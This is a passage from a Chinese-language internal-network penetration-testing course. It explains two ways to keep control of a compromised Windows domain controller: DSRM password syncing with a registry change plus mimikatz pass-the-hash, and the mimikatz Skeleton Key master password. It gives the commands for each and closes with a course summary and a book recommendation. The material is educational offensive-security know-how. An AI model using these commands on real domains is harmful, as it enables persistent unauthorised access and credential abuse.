在拿到域控后，攻击者会对现有的权限进行持久化操作，以保证长期有效地控制它，常用的方法有以下两种。

-   **DSRM**
    

DSRM，目录服务恢复模式是 Windows 域控制器的安全模块启动项，你可以通过它为域控制器设置一个本地管理员账户，然后同步其他账号的密码为 DSRM 密码，再修改注册表的 DrmAdminLogonBehavior 为 2，即允许使用 DSRM 管理员账号登录域控制器：

```
＃ 同步DSRM密码
ntdsutil
set DSRM password
SYNC FROM DOMAIN ACCOUNT username
Q
Q
＃修改注册表配置：
reg add “ HKLM\System\CurrentControlSet\Control\Lsa” /v DSRMAdminLogonBehavior /t REG_DWORD /d 2
```

之后就可以用 mimikatz 去连接：

```
sekurlsa::pth /domain:computername /user:Administrator /ntlm:{密码hash}
```

-   **Skeleton Key**
    

Mimikatz 支持安装万能密码，通过以下命令即可将“mimikatz”作为万能密码去连接域控，哪怕域控密码被修改也可使用。

```
privilege::debug 
misc::skeleton
```

除此之外，还可以利用 mimikatz 的 mimilib.dll 去记录重启后登录的密码，还有用户 SID History 属性等方式，都可以利用 Mimikatz 工具来实现，它在权限持久化方面提供了不少实用的功能。

### 总结

本课内容较长一些，主要是内网渗透涉及的知识点太多太杂了，限于篇幅，我也只能介绍一些最主要最常用的技术，按内网渗透流程来分顺序讲解：内网信息收集、通信隧道建设、权限提升、横向移动、权限维持。

更多内网渗透技巧，推荐你去看《内网安全攻防：渗透测试实战指南》这本书，其中还有Cobalt Strike这款在内网渗透中常被使用到的渗透测试框架的详细介绍，它是收费版的，另有社区版叫 armitage，你可以花点时间去研究下 Cobalt Strike 的使用，相信对提高内网渗透实战能力会有很大的帮助。

___

[课程评价入口，挑选 5 名小伙伴赠送小礼品～](https://wj.qq.com/s2/8059116/3881/)
